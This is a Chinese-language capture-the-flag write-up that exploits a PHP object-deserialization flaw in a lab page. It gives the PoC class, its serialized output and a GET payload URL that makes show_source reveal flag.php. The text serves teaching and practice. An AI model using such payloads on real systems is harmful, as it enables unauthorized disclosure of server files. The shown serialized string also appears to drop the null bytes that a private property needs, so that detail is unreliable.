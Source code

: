 ```php
    show_source('ctf.php');
}
else{
    unserialize($_GET['file']);
}
//flag in flag.php
?>
```

> 这是一个反序列化 `ctf.php` 的文件
>
> 目标：打印 `flag.php`
>
> 方法：利用反序列化漏洞使 `show_source` 打印 `flag.php`
>
> 可以看到页面通过 show_source 打印了 ctf.php 的源码，所以题目一定是要我们做代码审计，反序列化漏洞的两个必要因素，unserialize 参数可控，show_source 危险函数。

思路

>第一：通过 GET 方式传参序列化后的字符串作为 file 变量的值给 ctf.php
>第二：通过我们构造的 file 变量的序列化字符串让 show_source($this->file)最终的执行结果为show_source(flag.php);

根据目标的 php 源码构造序列化 `flag.php` 的 POC

```
[root@CentOS-76 ~]# vim test.php
```

```php
<?php
class xuegod{
    private $file='flag.php';
}
echo serialize(new xuegod());
?>
```

执行 POC `test.php` 获取字符串

```
[root@CentOS-76 ~]# php test.php
```

```php
O:6:"xuegod":1:{s:12:"xuegodfile";s:8:"flag.php";}
```

> 得到 `flag.php` 的序列化字符串

浏览器访问

>http://192.168.1.76/ctf/ctf.php

构造一个 payload 使 `$file='flag.php';`

```
http://192.168.1.76/ctf/ctf.php?file=O:6:"xuegod":1:{s:12:"xuegodfile";s:8:"flag.php";}
```
